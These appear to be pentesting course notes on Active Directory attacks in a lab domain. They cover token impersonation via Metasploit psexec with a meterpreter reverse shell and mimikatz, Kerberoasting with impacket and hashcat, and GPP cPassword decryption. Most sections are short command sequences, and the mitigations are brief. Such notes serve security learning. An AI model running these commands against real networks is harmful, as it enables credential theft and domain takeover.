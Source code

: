 ## Token Impersonation with Incognito
- Start up metasploit
- Get shell with psexec `use exploit/windows/smb/psexec`
	- Set target 2
	- Set payload windows/x64/meterpreter/reverse_tcp
	- hashdump, getuid, sysinfo
	- load incognito or kiwi or mimikatz or powershell
	- incognito > list_tokens -u > impersonate_token marvel\\administrator
	- if hashdump dont work, type rev2self

## Token impersonation Mitigation

![](https://i.imgur.com/BKAZMIb.png)


## Kerberoasting Overview

![](https://i.imgur.com/WkojWxY.png)


## Kerberoasting Walkthrough
- From impacket, Server Principle Name
`GetUserSPNS.py marvel.local/fcastle:Password1 -dc-ip 192.168.57.5 -request`

- Crack the hash
`hashcat -m 13100 hashes.txt rockyou.txt -O`

## Kerberoasting mitigation
- Strong passwords
- Least privilege (dont make service accounts domain administrator)

## GPP/cPassword Attacks Overview

- Group Policy Preferences (GPP)/ MS14-025
- [Group Policy Pwnage](https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/)

### Overview
- Group Policy Preferences allowed admins to create policies using embedded credentials
- These credentials were encrypted and placed in a "cPassword"
- The key was accidentally released(whoops)
- Patched in MS14-025, but doesn't prevent previous uses

> - Check using smb_enum_gpp in metasploit to see if it is vulnerable

### Abusing GPP 
1. `prompt off`
2. `recurse on`
3. `mget *`
4. `gpp-decrypt <cpassword here>`
